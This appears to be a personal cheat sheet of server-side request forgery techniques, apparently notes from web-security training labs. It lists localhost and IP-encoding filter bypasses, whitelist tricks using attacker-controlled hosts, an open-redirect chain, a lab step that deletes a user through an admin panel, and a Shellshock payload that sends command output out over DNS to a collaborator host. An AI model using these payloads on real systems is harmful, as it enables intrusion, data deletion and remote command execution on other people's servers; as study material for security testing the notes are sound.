 ## Basic SSRF against the local server
- If the request is accessing an endpoint through http request, modify that and try to fetch something through http://localhost

## Basic SSRF against another back-end system
- If the request is accessing an endpoint through http request, modify it and try to fetch an internal system http://192.168.x.x:8080/admin

## Blacklist (Most of the times http://localhost & http://127.0.0.1 is banned from being accessed)
- http://127.1
- http://2130706433
- http://017700000001
- register your own domain name that resolves to 127.0.0.1
### Obfuscating blocked strings using URL encoding or case variation.- Always try these step by step
- First try: http://localhost/ then http://127.0.0.1/ then http://127.1/ then http://2130706433 then http://017700000001
- If any of them works, then try to query out some internal resource like http://127.1/admin
- If that gets blocked try to url encode some characters in admin and so on...
- Keep bypassing

## Whitelist
- You can embed credentials in a URL before the hostname, using the @ character. For example: https://expected-host@evil-host.
- You can use the # character to indicate a URL fragment. For example: https://evil-host#expected-host.
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example: https://expected-host.evil-host.
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
### - You can use combinations of these techniques together. 
### This worked in lab:
- Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
- Append a # to the username and observe that the URL is now rejected.
- Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
- Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos to access the admin interface and delete the target user.

## Bypassing SSRF filters via open redirection
- For example, suppose the application contains an open redirection vulnerability in which the following URL: /product/nextProduct?currentProductId=6&path=http://evil-user.net 
- You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin

## Blind SSRF with out-of-band detection
- Many web analytics softwares actively check for referer header and even make requests to them
- Put burp collaborator url in referer header and check if it makes a request

## Blind SSRF with Shellshock exploitation
- Use Burp Collaborator client to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net
- change the Referer header to http://internal_ip_to_access_using_ssrf
